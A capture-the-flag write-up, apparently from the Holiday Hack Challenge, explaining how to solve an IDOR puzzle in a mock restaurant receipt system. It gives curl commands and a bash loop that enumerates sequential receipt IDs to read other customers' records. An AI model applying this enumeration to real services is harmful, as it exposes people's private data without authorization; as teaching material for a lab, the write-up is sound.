



## Overview


**Josh** has a tasty IDOR treat for you—stop by **Sasabune** for a bite of vulnerability. What is the name of the gnome?


!!! quote "Josh"
	I'm a teetotling hacker.

	I sleep about 4 hours a night.

	Photography is my hobby, but the anachronistic sort: before 1900.

	Teaching people how to hack and protect systems is my passion.
<div style="clear: both;"></div>

!!! quote "Josh"
	Did you see that receipt outside the door?
	
	I need your help with something urgent.

	A gnome came through Sasabune today, poorly disguising itself as human - apparently asking for frozen sushi, which is almost as terrible as that fusion disaster I had to endure that one time.

	Based on my previous work finding IDOR bugs in restaurant payment systems, I suspect we can exploit a similar vulnerability here.

	I was [at a talk recently](https://www.youtube.com/watch?v=hzrhtHrhwno) and learned some interesting things about some of these payment systems. Let's use that receipt to dig deeper and unmask this gnome's true identity.
## Hints
??? example "QR Codes"
	I have been seeing a lot of receipts lying around with some kind of QR code on them. I am pretty sure they are for Duke Dosis's Holiday Bistro. Interesting...see you if you can find one and see what they are all about...
	
??? example "What's For Lunch?"
	I had tried to scan one of the QR codes and it took me to somebody's meal receipt! I am afraid somebody could look up anyone's meal if they have the correct ID...in the correct place.
		
??? example	"Will the Real ID Please..."
	Sometimes...developers put in a lot of effort to anonymyze information by using randomly generated identifiers...but...there are also times where the "real" ID is used in a separate Network request...
	
## Solution

### The Receipt System's Redirect Loop

Time to check out this sushi spot! The challenge URL is `https://its-idorable.holidayhackchallenge.com/` and yes, that pun looks definitely intentional.

```bash
curl -v -L --max-redirs 10 'https://its-idorable.holidayhackchallenge.com/'
```



Well, that's annoying! The site is stuck in a redirect loop, bouncing us around endlessly with `HTTP/2 302` responses. Each redirect sets a session cookie with `holiday_bistro_session=eyJ1c2VyaWQiOiJEZWZhdWx0IFVzZXIifQ...` but then immediately redirects again. 

This isn't going to work. We need another way in.

Let's try some common endpoints:

```bash
curl -i -s 'https://its-idorable.holidayhackchallenge.com/receipts'
curl -i -s 'https://its-idorable.holidayhackchallenge.com/robots.txt'
```

Both return 404s with a custom error page mentioning "The receipt or page you're looking for may have been moved to our archives." Nothing useful there, but that message is interesting. Receipts are definitely part of this system.

Time to check the page source! Opening the site in a browser and viewing the HTML, we find something developers often forget about:


There it is! A developer left a test link commented out in the production code:

```html
<!-- For testing purposes only, not shown in production -->
<!-- <div class="testing-section">
    <details>
        <summary>Test Links (Staff Only)</summary>
        <ul class="demo-links">
            <li><a href="/receipt/a1b2c3d4">Sample Receipt</a></li>
        </ul>
    </details>
</div> -->
```

*Classic* mistake! Comments like "for testing purposes only" and "staff only" are basically neon signs pointing at interesting functionality. Let's see what that sample receipt shows us.

```bash
curl -i -s -c c.txt -b c.txt 'https://its-idorable.holidayhackchallenge.com/receipt/a1b2c3d4'
```



The receipt page loads successfully with an `HTTP 200`! Looking at the JavaScript code embedded in the response, we can see exactly how the receipt system works!

The page fetches receipt data from `/api/receipt?id=101` and displays it. That numeric ID is the key. This is our IDOR target!

Notice how the URL `/receipt/a1b2c3d4` looks nice and random (probably an attempt at security through obscurity), but the actual API call uses simple sequential IDs starting at 101. Security through obscurity is about as effective as hiding presents under the bed!

Let's grab receipt 101 to see the data structure:

```bash
curl -s -b c.txt 'https://its-idorable.holidayhackchallenge.com/api/receipt?id=101' | jq .
```

```json
{
  "customer": "Duke Dosis",
  "date": "2025-12-20",
  "id": 101,
  "items": [
    {
      "name": "Omakase Experience",
      "price": 150.0
    },
    {
      "name": "Sake Flight (Premium)",
      "price": 45.0
    }
  ],
  "note": "Claims his pet rock is a certified sushi-grade emotional support animal. Demanded a tiny chair and a water bowl for it.",
  "paid": true,
  "table": 1,
  "total": 195.0
}
```

Duke Dosis and his pet rock! The $195 meal is impressive, but that note is incredibly useful. Now we know the structure: each receipt has `customer`, `date`, `id`, `items`, `note`, `paid`, `table`, and `total`.

This is a *classic* [Insecure Direct Object Reference (IDOR)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References) vulnerability. We have sequential numeric IDs controlling access to receipt data, and there's no authentication or authorization checking if we're allowed to see each receipt. Time to go shopping for gnomes!

---

### Hunting for the Gnome

Time to enumerate receipts and find our frozen sushi ordering gnome! We'll loop through IDs starting from 101 and look for anything suspicious. Somewhere in this restaurant's customer database is a gnome pretending to be human and ordering the *most unappetizing sushi imaginable*. The command formats each receipt as a single line showing the ID and customer name:

```bash
for i in {101..152}; do 
  curl -s -b c.txt "https://its-idorable.holidayhackchallenge.com/api/receipt?id=$i" | \
  jq -r 'if . then "\(.id) \(.customer)" else "ID:'$i' NOTFOUND" end'
done
```

And the output line should be:
```
139 Bartholomew Quibblefrost
```

??? info "It's a Long List..."
	

Scrolling through the results, we see familiar names. Lots of SANS instructors and community members having perfectly normal sushi dinners. Ed Skoudis at 107, Joshua Wright at 108, Lynn Schifano at 109... all ordering actual edible food like normal people. Duke Dosis, Mrs. Sarah Henderson, Bobby Mitchell, perfectly normal names ordering perfectly normal meals.

But then at ID 139...

`139 Bartholomew Quibblefrost - -`

*Bartholomew Quibblefrost*?!

That's not just a name. That's a gnome name if we've ever heard one! Let's pull his full receipt and see what this poorly disguised gnome ordered:

```bash
curl -s -b c.txt 'https://its-idorable.holidayhackchallenge.com/api/receipt?id=139' | jq .
```



There it is! The gnome ordered a "Frozen Roll" made with sorbet and dry ice because he literally wanted frozen sushi. The note confirms everything: "demanded one be served frozen" and then had the audacity to ask about bulk orders! Bartholomew, that's not how sushi works. That's not how any of this works!

!!! success "The Mysterious Gnome"
	Bartholomew Quibblefrost

Victory! We've unmasked the gnome through a classic IDOR vulnerability. Sequential numeric IDs without proper authorization checks are an open invitation for anyone to browse through your entire dataset. And frozen sushi? *Ewwww* that's just wrong on every level.

<div class="nav-buttons">
  <a href="/objectives/o13" class="nav-button nav-left">← Mail Detective</a>
  <a href="/objectives/o15" class="nav-button nav-right">Next: DOSIS Network Down →</a>
</div>
